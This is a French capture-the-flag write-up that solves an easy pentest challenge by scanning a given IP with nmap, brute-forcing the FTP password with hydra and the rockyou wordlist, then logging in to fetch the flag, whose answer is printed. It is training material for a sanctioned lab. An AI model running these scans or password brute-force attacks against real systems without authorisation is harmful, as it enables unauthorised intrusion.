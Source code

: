 ## Pentester Academia 1/??? (EASY)

## Auteur(s) :
`Senkei`

## Catégorie : 
`Pentest`

## Description :

Voici mon home lab ! J'espère que personne ne va me hack ! 

> Bruteforce, Scan et autres outils autorisé.

`159.65.52.234`

**Flag** : `UHOCTF{XX_KK_AA_OO}`

---

## Solution :


On commence avec un nmap classque:

```bash
nmap -sC -sV -Pn --top-ports 100 159.65.52.234

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-16 11:08 EDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:09 (0:00:13 remaining)
Nmap scan report for 159.65.52.234
Host is up (0.023s latency).
Not shown: 98 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines, NULL: 
|     220 FTP Server
|   SSLSessionReq: 
|     220 FTP Server
|_    Please login with USER and PASS.
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1668d46711534926abf8832a401c1baa (ECDSA)
|_  256 116c289ea5d206ea8a0726ff7d412ec9 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=6/16%Time=648C7B04%P=x86_64-pc-linux-gnu%r(NULL
SF:,10,"220\x20FTP\x20Server\r\n")%r(GenericLines,10,"220\x20FTP\x20Server
SF:\r\n")%r(SSLSessionReq,36,"220\x20FTP\x20Server\r\n530\x20Please\x20log
SF:in\x20with\x20USER\x20and\x20PASS\.\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```


On peut voir que ily a un service ftp et ssh qui tourne sur la machine.
SSLSessionReq: Please login with USER and PASS. nous indique qu'il faut un login et un mot de passe pour se connecter au ftp.

Sachant que c'est "Voici mon home lab ! J'espère que personne ne va me hack ! " on peut essayer de bruteforce le mot de passe avec hydra et le login de senkei:

```bash
hydra -l senkei -P /usr/share/wordlists/rockyou.txt ftp://159.65.52.234

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-16 11:11:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://159.65.52.234:21/
[21][ftp] host: 159.65.52.234   login: senkei   password: password


```
Bingo !


On peut se connecter en ftp avec les identifiants senkei:password et récupérer le flag:

```bash

$ ftp 159.65.52.234


Connected to 159.65.52.234.
220 FTP Server
Name (159.65.52.234:bash): senkei
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40003|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            32 Jun 16 15:13 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||40000|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************************************************************|    32      336.02 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (1.42 KiB/s)
ftp> ^D
221 Goodbye.

CTF_UNIV $ cat flag.txt

UHOCTF{Sry_No_TIme_for_PENTEST}

```

**Flag** : `UHOCTF{Sry_No_TIme_for_PENTEST}`